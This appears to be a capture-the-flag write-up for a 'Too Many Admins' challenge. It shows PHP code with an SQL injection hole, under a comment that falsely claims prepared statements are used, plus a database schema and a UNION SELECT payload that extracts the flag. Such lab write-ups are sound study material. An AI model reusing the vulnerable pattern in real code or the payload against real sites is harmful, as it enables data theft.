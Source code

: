 ### Too Many Admins
Line 90-99 in provided source code.

```php
    $userParam = $_GET['user'];

    // Use prepared statement to prevent SQL injection
    if($userParam){
    if($userParam !=  "all"){
    $query = "SELECT username, password, bio FROM users where username = '$userParam' ";
    }else{
    $query = "SELECT username, password, bio FROM users ";

    }
```

dump.sql
```SQL
CREATE TABLE users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(255),
    password VARCHAR(255),
    bio TEXT
);
CREATE PROCEDURE GenerateRandomUsers()
BEGIN
    DECLARE i INT DEFAULT 0;
    WHILE i < 500 DO
        IF i = {SOME_NUMBER} THEN
            INSERT INTO users (username, password, bio)
            VALUES (
                CONCAT('admin', i),
                'REDACTED',
                'Flag{REDACTED}'
            );
        ELSE
            INSERT INTO users (username, password, bio)
            VALUES (
                CONCAT('admin', i),
                MD5(CONCAT('admin',i,RAND())),
                CONCAT('Bio for admin', i)
            );
        END IF;
        SET i = i + 1;
    END WHILE;
END
```

So, obvious SQL injection in the php code and since we have dump.sql, we know what columns are in what tables. Thus, below is a SQLi payload to extract the flag, since we know it is in the bio.

```
GET /?user=' UNION SELECT 1,bio,3 FROM users WHERE bio LIKE "%Flag{%";-- -
```

The response is: -

```
S.no	Username	Password(MD5 hashes)
0	1	flag{1m40_php_15_84d_47_d1ff323n71471n9_7yp35}
```

Based on the flag it obviously was a chal about php type juggling.

### Flag

`flag{1m40_php_15_84d_47_d1ff323n71471n9_7yp35}`
